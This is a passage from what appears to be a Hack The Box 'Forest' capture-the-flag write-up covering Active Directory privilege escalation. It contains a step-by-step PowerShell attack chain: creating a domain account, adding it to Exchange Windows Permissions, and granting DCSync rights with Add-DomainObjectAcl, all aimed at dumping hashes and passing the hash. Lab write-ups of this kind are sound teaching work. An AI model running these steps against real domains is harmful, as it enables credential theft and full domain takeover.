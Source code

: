 Here we see a fairly large graph. As you'll notice, there are actually two domains in this environment, `htb.local` and `forest.htb.local`, which is why this box is named the way it is (2 joined domains are a forest).

From svc-alfresco, marked with a skull, we see two jumps necessary to get to domain admin. Since svc-alfresco is a part of the Account Operators group, it has the generic all privilege on the Exchange Windows Permissions group. Right clicking the edge to learn more, we find the following abuse info:

![asdf](https://an00brektn.github.io/img/Pasted image 20210903163652.png)

Essentially, this means we can give our account, or any account, DCSync Privileges, which can allow us to run secretsdump.py or mimikatz to dump hashes. If this works, we can use the NT hash we get to pass the hash and become administrator.

## Shell as Administrator

Since this is a public box, I don't want to make it easy so I'll make my own account first and add it to the Exchange Windows Permissions group.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user An00bRektn An00bRektn /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add An00bRektn
The command completed successfully.
```

We then attempt give ourselves DC Sync Rights according to the Bloodhound Abuse Info.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'An00bRektn' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\An00bRektn', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
The term 'Add-DomainObjectAcl' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Righ ...
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Add-DomainObjectAcl:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

As you can see, Add-DomainObjectAcl wasn't working. I took to Google, and found that I might need to specify a TargetIdentity and PrincipalIdentity. After some adjustments, we run it again.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity An00bRektn -Rights DCSync
```

